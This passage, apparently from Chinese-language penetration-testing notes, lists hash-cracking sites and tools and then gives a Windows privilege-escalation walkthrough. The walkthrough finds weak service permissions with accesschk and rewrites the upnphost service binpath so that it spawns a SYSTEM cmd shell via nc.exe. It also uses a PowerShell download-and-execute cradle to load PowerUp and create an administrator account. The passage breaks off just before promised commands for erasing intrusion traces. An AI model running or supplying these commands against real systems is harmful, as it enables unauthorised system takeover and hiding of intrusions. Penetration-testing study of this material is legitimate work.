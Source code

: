```
http://wooyun.jozxing.cc/static/drops/tips-10496.html
```

在线破解hash网站：

```
http://www.objectif-securite.ch/en/ophcrack.php
http://www.cmd5.com
这尼玛太少了，谁帮我加点。

```
离线破解：

```
ophcrack/hashcat/john the ripper

hashcat 可以组合字典破解，还可以根据规则处理字典
https://hashcat.net/wiki/doku.php?id=mask_attack
/usr/share/hashcat/rules/ 目录存放了默认的规则文件。
```

### Win提升权限

检查是否存在可以提权的第三方应用：

```
serv-u/filezilla/flashfxp/winscp/mysql/mssql/radmin
```

服务配置不当提权：

```
有的服务以system权限运行, 但是权限配置不当, 导致普通用户可以通过 sc config 修改程序路径。

wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

查看权限
#这个也行
icacls "C:\Program Files (x86)\Privacyware"

sc qc Spooler【某示例程序】
accesschk.exe -ucqv Spooler
accesschk.exe -ucqv *

===================================
#正题在下面
accesschk.exe -uwcqv "Authenticated Users" *
#结果查出来是upnphost
accesschk.exe -ucqv upnphost

sc qc upnphost
sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost
#弹出shell

#测试是否everyone有权限
icacls "C:Program Files\Program Folder\A Subfolder\OmniServers.exe"
#Install-ServiceBinary模块，通过Write-ServiceBinary写一个C#的服务用来添加用户:
powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('c:/PowerUp.ps1');Install-ServiceBinary -ServiceName 'OmniServers'-UserName shuteer -Password Password123!


#提权成功以后我们需要清除入侵的痕迹，把所有的状态恢复到最初的状态，可以使用如下命令恢复：
```